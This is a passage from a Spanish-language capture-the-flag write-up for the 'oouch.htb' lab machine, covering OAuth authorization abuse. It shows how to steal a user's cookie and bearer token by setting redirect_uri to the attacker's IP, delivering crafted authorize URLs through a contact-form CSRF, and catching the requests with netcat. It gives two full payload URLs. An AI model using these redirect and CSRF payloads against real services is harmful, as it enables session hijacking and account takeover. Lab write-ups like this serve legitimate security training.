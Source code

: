 A continuacion intentaremos robar la cookie de QTC creando una aplicacion y haciendo que estas mismo la autorice.
El Formulario quedaria tal que asi
![[Pasted image 20240202160923.png]]

## Abusing Authorization Workflow 
En redirect colocamos nuestra IP dado que esto nos mandera las cookies en el encabezado cuando QTC entre
El payload final saria el siguiente:
`http://authorization.oouch.htb:8000/oauth/authorize/?client_id=d8zS8VvoYpA0fIdyroWb2H9l9G9YFIx1v3HeBo33&redirect_uri=http://10.10.14.153/&grant_type=authorization_code&client_secret=qF9Vt5eGCo38B2tyjVrVoTv640COJIcW5Qdqjuk6YWjdN4hedZxM6Bg8kpEYCFyFag6odMCRVyQBE8E69vKKdMcpJX9SU7UT9e6p3csmvTVYClnfnNpGzVtjXxQwdzIr`

Ahora, se lo mandaremos por la seccion de contacto como lo hicimos anteriormente
![[Pasted image 20240202161348.png]]
Lo mandamos y por otro lado con nuestro oyente de netcat nos caera la peticion:
![[Pasted image 20240202161616.png]]

## Token Stealing 
Con esta cookie, vamos a suplantar al usuario QTC en la web de authorization:
![[Pasted image 20240202161913.png]]
![[Pasted image 20240202161933.png]]

Ahora, lo que haremos sera crear otra aplicacion la cual permitira sacar el authorization token del usuario 
## Playing with Bearer Tokens - Abusing Authentication 
Falta conseguir el token del usuario QTC para asi poder coger su SSH que menciona en su pagina principal. Para hacer esto, jugaremos con los token que nos otorgan las aplicaciones al momento de autorizarlas. Vamos a generar nuestro token con la siguiente peticion y poniendonos en escucha en el puerto 80 con netcat:
![[Pasted image 20240202170839.png]]
Al mandarla nos llegara esta peticion
![[Pasted image 20240202170925.png]]

ahi contemplamos nuestro code, este mismo lo usaremos para solicitar el token que usaremos para coger informacion del usuario
![[Pasted image 20240202171012.png]]

El **Client_id** lo sacamos del la aplicacion que creamos con anterioridad. Al mandar la peticion, el servidor nos responde con los datos del token
![[Pasted image 20240202171110.png]]

Para conseguir el token del QTC ahora intentaremos abusar del CSRF de antes para que se nos tramite el token. Asi que mandaremos el siguiente payload en el formulario de contacto y nos pondremos en escucha
`http://authorization.oouch.htb:8000/oauth/authorize/?redirect_uri=http://10.10.14.153/&scope=read&client_id=d8zS8VvoYpA0fIdyroWb2H9l9G9YFIx1v3HeBo33&state=&response_type=code&allow=Authorize`
